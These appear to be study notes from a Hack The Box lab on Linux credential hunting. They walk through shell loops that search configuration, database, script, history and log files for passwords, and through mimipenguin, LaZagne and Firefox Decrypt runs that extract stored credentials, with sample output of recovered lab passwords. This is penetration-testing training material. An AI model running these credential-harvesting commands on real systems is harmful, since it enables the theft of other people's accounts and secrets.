- `Files` including configs, databases, notes, scripts, source code, cronjobs, and SSH keys
- `History` including logs, and command-line history
- `Memory` including cache, and in-memory processing
- `Key-rings` such as browser stored credentials

## Files
#### Searching for configuration files

```shell
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
Optionally, we can save the result in a text file and use it to examine the individual files one after the other. Another option is to run the scan directly for each file found with the specified file extension and output the contents. In this example, we search for three words (`user`, `password`, `pass`) in each file with the file extension `.cnf`.

```shell
shakir0x00@htb[/htb]$ for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

#### Searching for databases

```shell
shakir0x00@htb[/htb]$ for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

#### Searching for notes

```shell
shakir0x00@htb[/htb]$ find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

#### Searching for scripts

Sometimes scripts contain creds .

```shell
shakir0x00@htb[/htb]$ for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

#### Enumerating cronjobs

```shell
cat /etc/crontab
```


#### Enumerating history files

```shell
shakir0x00@htb[/htb]$ tail -n5 /home/*/.bash*
```

#### Enumerating log files

IMPORTANT ONES 

|**File**|**Description**|
|---|---|
|`/var/log/messages`|Generic system activity logs.|
|`/var/log/syslog`|Generic system activity logs.|
|`/var/log/auth.log`|(Debian) All authentication related logs.|
|`/var/log/secure`|(RedHat/CentOS) All authentication related logs.|
|`/var/log/boot.log`|Booting information.|
|`/var/log/dmesg`|Hardware and drivers related information and logs.|
|`/var/log/kern.log`|Kernel related warnings, errors and logs.|
|`/var/log/faillog`|Failed login attempts.|
|`/var/log/cron`|Information related to cron jobs.|
|`/var/log/mail.log`|All mail server related logs.|
|`/var/log/httpd`|All Apache related logs.|
|`/var/log/mysqld.log`|All MySQL server related logs.|

, here are some strings we can use to find interesting content in the logs:

```shell
shakir0x00@htb[/htb]$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## Memory and cache

#### Mimipenguin
Many applications and processes work with credentials needed for authentication and store them either in memory or in files so that they can be reused. there is a tool called [mimipenguin](https://github.com/huntergregal/mimipenguin) that makes the whole process easier. However, this tool requires administrator/root permissions.

```shell 
shakir0x00@htb[/htb]$ sudo python3 mimipenguin.py

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY
```

#### LaZagne

This tool allows us to access far more resources and extract the credentials. The passwords and hashes we can obtain come from the following sources but are not limited to:

- Wifi
- Wpa_supplicant
- Libsecret
- Kwallet
- Chromium-based
- CLI
- Mozilla
- Thunderbird
- Git
- ENV variables
- Grub
- Fstab
- AWS
- Filezilla
- Gftp
- SSH
- Apache
- Shadow
- Docker
- Keepass
- Mimipy
- Sessions
- Keyrings

For example, `Keyrings` are used for secure storage and management of passwords on Linux distributions. Passwords are stored encrypted and protected with a master password. It is an OS-based password manager, which we will discuss later in another section. This way, we do not need to remember every single password and can save repeated password entries.

```shell
sudo python2.7 laZagne.py all
```

#### Browser credentials
Firefox browser, they are encrypted and stored in `logins.json` on the system

```shell
ls -l .mozilla/firefox/ | grep default 
```


The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.

```shell
 python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```

Alternatively, `LaZagne` can also return results if the user has used the supported browser.

```shell
python3 laZagne.py browsers

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Firefox passwords -----------------

[+] Password found !!!
URL: https://testing.dev.inlanefreight.com
Login: test
Password: test

[+] Password found !!!
URL: https://www.inlanefreight.com
Login: cry0l1t3
Password: FzXUxJemKm6g2lGh


[+] 2 passwords have been found.
For more information launch it again with the -v option
```

